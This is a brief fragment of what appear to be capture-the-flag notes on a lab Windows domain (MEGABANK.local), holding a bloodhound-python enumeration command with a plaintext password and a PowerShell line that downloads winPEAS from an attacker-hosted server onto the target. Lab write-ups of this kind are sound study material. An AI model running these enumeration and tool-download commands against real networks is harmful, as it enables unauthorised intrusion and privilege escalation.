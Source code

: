 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

